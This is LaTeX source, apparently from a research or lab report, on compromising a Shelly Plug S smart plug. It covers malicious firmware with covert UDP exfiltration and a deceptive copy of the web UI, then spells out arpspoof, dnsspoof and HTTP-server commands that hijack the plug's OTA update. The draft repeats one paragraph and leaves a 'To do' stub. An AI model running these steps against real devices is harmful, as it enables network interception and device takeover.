    
\includegraphics[width=0.80\linewidth]{Images/Fase2/PublishStatus.png}
    \caption{MQTT \texttt{publish\_status()} function: relay state and device status broadcasting}
    \label{fig:publish_status}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/PublishEnergy.png}
    \caption{MQTT \texttt{publish\_energy()} function: power, energy, and temperature telemetry publishing}
    \label{fig:publish_energy}
\end{figure}

\noindent This separation of duties serves a dual purpose: the MQTT channel ensures that the device remains fully operational and visible in any existing home automation dashboard (e.g., Home Assistant), thereby reducing the likelihood of detection, while the UDP channel acts as the covert data stream directly to the attacker's database. Although both communication channels point to the same server IP in this experiment for setup simplicity, they represent independent logical paths: MQTT replicates the legitimate UI/backend connection, whereas UDP performs the stealthy exfiltration. Figure~\ref{fig:mqtt_redfw} shows the MQTT telemetry captured via \texttt{mosquitto\_sub}, confirming the successful publication of standard power, energy, and temperature readings from the compromised device, demonstrating that the behavioral camouflage is fully functional.

\noindent This separation of duties serves a dual purpose: the MQTT channel ensures that the device remains fully operational and visible in any existing home automation dashboard (e.g., Home Assistant), to avoid raising suspicion., while the UDP channel acts as the covert data stream directly to the attacker's database. 



\subsubsection{Web Interface and Deception}
The malicious firmware also includes a fully functional \textbf{web interface} (Figure~\ref{fig:redfw_ui}), designed to closely replicate the look and feel of the original Shelly Plug S web UI. This design choice is intentional: should the device owner access the local web interface, the familiar visual appearance reduces the likelihood of suspicion. The interface provides standard operational features (relay toggle, power monitoring, WiFi configuration, change MQTT broker IP address)

\medskip
\noindent At the first boot, the malicious firmware activates its own WiFi (\texttt{ShellyPlugS-Setup}), as shown in Figure~\ref{fig:wifi_setup}, allowing the attacker to connect directly and reconfigure the device's network settings and MQTT broker address through the embedded web interface.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\linewidth]{Images/Fase2/WifiSetup.png}
    \caption{The malicious firmware creates a \texttt{ShellyPlugS-Setup} access point for initial configuration}
    \label{fig:wifi_setup}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{Images/Fase2/InterfacciaRedfw.png}
    \caption{Embedded web interface of the malicious firmware, designed to replicate the original Shelly Plug S UI}
    \label{fig:redfw_ui}
\end{figure}





\section{Man-in-the-Middle (MITM) Attack}
The malicious firmware was compiled and packaged as a \texttt{.zip} archive using the Mongoose OS CLI command \texttt{mos build --platform esp8266}, matching the framework employed by the original firmware. This choice ensured full compatibility and a well-structured bundle, making it ready to be delivered to the target device via OTA.

\medskip
\noindent We implemented and tested two attack variants, both exploiting the device's \textbf{lack of cryptographic verification} during the OTA update process. The two approaches differ significantly in their prerequisites, level of stealth, and exploitation surface:

\begin{itemize}
    \item \textbf{Variant A: Classic Man In The Middle Attack (ARP Poisoning + DNS Spoofing)} 

    \noindent A fully transparent network-level attack that hijacks the device's legitimate firmware update check, making it download malicious firmware believing it comes from the official Shelly cloud.
    
    \item \textbf{Variant B: Direct OTA Endpoint Exploitation}

    \noindent A simpler attack that directly abuses the unauthenticated \texttt{/ota} HTTP endpoint exposed by the Shelly firmware to force the device to download firmware from an arbitrary URL.
\end{itemize}

\noindent The initial state of the target device before executing the attack is shown in Figure~\ref{fig:mitm_pre}: the device runs the original Shelly firmware (v1.10.0), which indicates an available official update (v1.14.0).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/MITM0.jpg}
    \caption{Pre-attack state: original Shelly firmware UI showing the current version (v1.10.0) and available update (v1.14.0)}
    \label{fig:mitm_pre}
\end{figure}

\subsection{How OTA Update Works on Shelly Plus S Gen 1}
%To do. Explain how official OTA work, and how we can do a MITM attack

\subsection{Variant A: Classic MITM --- ARP Poisoning \& DNS Spoofing}
The key characteristic of this attack is that the device is not forcibly updated; instead, the attack silently \emph{hijacks} the legitimate update process. Consequently, when the user clicks on "Update Firmware Version", believing it to be an official release, it causes the installation of our malicious firmware.

\subsubsection{Attack Infrastructure}
The setup required the execution of \textbf{four concurrent processes}, coordinated in a \texttt{tmux} terminal (Figure~\ref{fig:mitm_setup}):

\begin{enumerate}
    \item \textbf{ARP Poisoning (Gateway $\rightarrow$ Device)}: The \texttt{arpspoof} tool was used to poison the ARP cache of the local gateway (192.168.1.1), causing it to associate the Shelly's IP address (192.168.1.19) with the attacker's MAC address. This ensures that all packets the gateway intends to send to the Shelly are instead routed through the attacker's machine:

    \begin{bashcode}
sudo arpspoof -i wlo1 -t 192.168.1.1 192.168.1.19    
    \end{bashcode}
     
\item \textbf{ARP Poisoning (Device $\rightarrow$ Gateway)}: Symmetric ARP poisoning was executed in the opposite direction, forcing the Shelly device to route all its \emph{outbound} traffic (including DNS queries and HTTP requests) through the attacker's machine:

    \begin{bashcode}
sudo arpspoof -i wlo1 -t 192.168.1.19 192.168.1.1        
    \end{bashcode}

    \noindent \textit{Note}: The syntax of \texttt{arpspoof} is \texttt{arpspoof [-i interface] [-t target] host}, where \texttt{-i} specifies the network interface, \texttt{-t} specifies the victim to which the modified ARP packets are sent, and \texttt{host} specifies the host to impersonate.

    \item \textbf{DNS Spoofing}: The \texttt{dnsspoof} tool was configured with a custom \texttt{hosts.txt} file to intercept the Shelly's DNS queries for \texttt{firmware.shelly.cloud} and respond with the attacker's local IP address (192.168.1.20). 
    
    \medskip
    \noindent This is the pivotal step. When the device resolves the official update server's hostname, it receives the attacker's IP instead

    \begin{bashcode}
echo '192.168.1.20 firmware.shelly.cloud' > hosts.txt
sudo dnsspoof -i wlo1 -f hosts.txt        
    \end{bashcode}

    
    \item \textbf{HTTP Server}: A Python HTTP server was launched on port 80 to serve the malicious firmware bundle (\texttt{SHPLG-S.zip}) from a directory structure that \emph{mirrors the expected Shelly cloud endpoint} (\texttt{/gen1/SHPLG-S.zip}). This ensures the device can download the file from the exact URL path it expects

    \begin{bashcode}
sudo python3 -m http.server 80
    \end{bashcode}
\end{enumerate}

\noindent Lastly, we need to enable IP forwarding on the attacker's machine to ensure that the intercepted traffic is correctly routed between the gateway and the victim, preventing any network disruption
\begin{bashcode}
sudo sysctl -w net.ipv4.ip_forward=1
\end{bashcode}

\begin{figure}[H]
    \centering
